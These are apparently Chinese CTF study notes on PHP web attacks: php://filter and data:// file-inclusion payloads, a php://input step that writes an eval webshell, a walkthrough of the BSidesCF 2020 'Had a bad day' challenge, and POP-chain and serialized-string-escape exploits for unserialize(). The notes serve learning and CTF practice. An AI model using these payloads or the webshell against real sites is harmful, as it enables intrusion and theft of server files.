



# 文件包含

file=flag.txt 如果flag没有被php标签包裹，可以读取出来，否则会被执行

## 任意文件读取

**php://filter ** 文件读取

```
将内容编码成base64输出：
php://filter/read=convert.base64-encode/resource=xxx
将内容编码成rot13输出：
php://filter/read=string.rot13/resource=xxx
```

**php://input** 文件写入

post流中的数据会被当做代码执行

```
php://filter/write=convert.base64-encode/resource=phpinfo.php 
php://input 然后POST里面写:<?php fputs(fopen('shell.php', 'w'), '<?php @eval($_GET[cmd]);?>');?>
```

**data://** 代码执行

```
data://text/plain,<?php phpinfo();?>
data://text/plain;base64,PD9waHAHAgcGhwaW5mbygpOz8%2b
```

## [BSidesCF 2020]Had a bad day

文件包含题，看url

```
http://5e96397f-c259-4ef7-93a0-0c4828a7ab66.node5.buuoj.cn:81/index.php?category=woofers
```

当尝试用伪协议读取index.php内容时：（目的是看他首页文件的内容）



所以改成这样就可以读到index.php的内容：`?category=php://filter/read=convert.base64-encode/resource=index`

base64解码得到：

```php
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

也就是说category里面要有woofers meowers index

```
?category=php://filter/read=convert.base64-encode/resource=index/../flag
```

因为相对路径是计算出来的，中间目录如果不存在也没关系

## 文件上传+文件包含

制作一个图片马，上传成功：



文件包含然后读取flag：



**flag{4f9bdf017d34ab2f1882b84286d85840}**

# 反序列化

## pop1

```php
<?php
class start{
    public $mod1;
    public $mod2;
    public function __destruct(){
        echo $this->mod1->mod2; // 让start对象的mod1属性为Get对象，其访问了一个不存在的属性，触发Get对象的__get()方法
    }
}
class Get{
    public $mod1;
    public function __get($value){
        $this->mod1->test1(); // 让Get对象的mod1属性为Call对象
    }
}
class Call{
    public $mod1;
    public $mod2;
    public function test1(){
        $this->mod1->test2(); // 让Call对象的mod1属性为funct对象，对象调用了一个其不存在的方法，触发funct对象的__call()方法
    }
}
class funct{
    public $mod1;
    public $mod2;
    public function __call($test2,$ary){
        $s1=$this->mod1; 
        $s1(); // 让funct对象的mod1属性为func对象，对象被当做函数处理，触发func对象的__invoke()方法
    }
}
class func{
    public $mod1;
    public $mod2;
    public function __invoke(){
        $this->mod2 = "字符串拼接".$this->mod1; // 让func对象的mod1属性为string1对象，对象被当做字符串处理，触发string1对象的__toString()方法
    }
}
class string1{
    public $str1;
    public $str2;
    public function __toString(){
        $this->str1->get_flag(); // 让string1对象的str1变量为GetFlag对象  接着：如何调用string1对象的__toString()方法
        return '1';
    }
}
class GetFlag{
    public function get_flag(){
        include 'flag.php';
            echo $flag;     
    }
}


$string1 = new string1();
$string1->str1 = new GetFlag();

$func = new func();
$func->mod1 = $string1;

$funct = new funct();
$funct->mod1 = $func;

$call = new Call();
$call->mod1 = $funct;

$get = new Get();
$get->mod1 = $call;

$start = new start();
$start->mod1 = $get;

echo serialize($start);

?>
```

## pop2

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class Read{
    public $var;
    public function file_get($value){
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
    public function __invoke(){
        $content = $this->file_get($this->var); //该对象的var变量需要是flag.php 然后其内容被base64编码输出
        echo $content;
    }
}
class Show{
    public $source;
    public $str;
    public function __construct($file = 'index.php'){
        echo 'here';
        $this->source = $file;
        echo $this->source.'  Welcome'."<br>";
    }
    public function __toString(){
        return $this->str['str']->source;
    }
    public function _show(){
        if(preg_match('/gopher|http|ftp|https|dict|\.\.|flag|file/i',$this->source)){
            die('hacker');
        }else{
            highlight_file($this->source);
        }
    }
    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i",$this->source)){
            // preg_match的第二个参数本该是一个字符串 如果是对象的话 就会触发其__toString()
            echo 'hacker';
            $this->source = 'index.php';
        }
    }
}
class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }
    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
if(isset($_GET['x'])){
    unserialize($_GET['x']);
}else{
    $show = new Show();
    $show->_show();
} 
```

起点是`__wakeup`而不是`__construct`，反序列化自动调用`__wakeup`，原程序里面没有serialize()

要想读到flag.php，代码里有两个关键的参数：`highlight_file`和`file_get_contents`，仔细看如果对x进行传参，就不会执行`_show`方法，就不会调用`highlight_file`方法，所以这是迷惑的

该如何调用到read对象的__invoke()方法？——test对象中的p变量可控，并且**会以方法返回**

那么如何调用到test对象的`__get()`方法？——show对象的`__toString()`访问了一个source属性，这个属性test对象里面不存在，所以能调用到test对象的`__get()`方法，那么show对象的`str['str']`就应该是`$test`

那么如何调用到show对象的toString()方法？——preg_match的第二个参数本该是一个字符串 如果是对象的话 就会触发其__toString()

```php
$read = new Read();
$read->var = 'flag.php';

$test = new Test();
$test->p = $read;

$show = new Show();
$show->str['str'] = $test;

$show->source = $show;

echo serialize($show);
```

## 字符逃逸（过滤后变少）

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
//flag in flag.php
class Read{
    public $mod1='change me!';
    public $mod2='change me!';
    public $filename='index.php';
}
function replace($str){
    return preg_replace('/aaaa|bbb/i','', $str);
}
$test = new Read();
if(isset($_GET['a'])&&isset($_GET['b'])){
    $test->mod1 = $_GET['a'];
    $test->mod2 = $_GET['b'];
}
$ser = replace(serialize($test));
$f = unserialize($ser);

echo '<br>'.$f->filename.'的内容为：'.'<br>';
highlight_file($f->filename);
?>

```

构造：

```php
<?php

//flag in flag.php
class Read{
    public $mod1='aaaaaaaaaaaaaaaabbb';
    public $mod2='";s:4:"mod2";s:4:"mod2";s:8:"filename";s:8:"flag.php";}'; // 这里自己多加一个属性 因为序列化之后对象中变量的个数是3 但是逃逸之后少了一个
    public $filename='index.php';
}
function replace($str){
    return preg_replace('/aaaa|bbb/i','', $str);
}
$read = new Read();
echo serialize($read);
echo '</br>';
echo replace(serialize($read));

?>

```

## 字符逃逸（过滤后变多）

```php
<?php
highlight_file(__file__);
error_reporting(0);
class Read{
    public $mod1='change me!';
    public $mod2='change me!';
    public $filename = 'index.php';
}
function replace($str){
    return preg_replace('/aaaaa/i','hacker',$str);
}
$test=new Read();
if(isset($_GET['x'])){
    $test->mod2=$_GET['x']; //只能控制mod2
}
$ser = replace(serialize($test));
$f = unserialize($ser);
echo '<br>'.$f->filename.'的内容为：<br>';
highlight_file($f->filename);
?>
```

aaaaa -> hacker 多一个字符

如果让`mod2 = aaaaa`

```
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:5:"aaaaa";s:8:"filename";s:8:"flag.php";}
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:5:"hacker";s:8:"filename";s:8:"flag.php";}
```

如果让`mod2 = aaaaaw`

```
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:6:"aaaaaw";s:8:"filename";s:8:"flag.php";}
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:6:"hackerw";s:8:"filename";s:8:"flag.php";}
```

逃出了一个字符w

如果把字符w换成双引号"

```
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:6:"aaaaa"";s:8:"filename";s:8:"flag.php";}
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:6:"hacker"";s:8:"filename";s:8:"flag.php";}
```

逃出的双引号把原来的双引号闭合掉了

如果再逃出一个; 那么就能把mod2的内容闭合    想要逃两个字符，就要两个aaaaa

我们想逃：`";s:8:"filename";s:8:"flag.php";}` 33个字符

那么就要33个aaaaa

```php
<?php
class Read{
    
    public $mod1='change me!';
    public $mod2='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:8:"filename";s:8:"flag.php";}';
    public $filename = 'flag.php';
}
function replace($str){
    return preg_replace('/aaaaa/i','hacker',$str);
}

$read = new Read();
echo serialize($read);
echo '</br>';

$read2 = replace(serialize($read));
echo $read2;

?>
```

flag{abc88f5bg8sdv48fb6sdu8462s}


echo unserialize($_GET["pop"]); 

反序列化之后是一个类 echo处理字符串 所以会触发该类的__toString()魔术方法

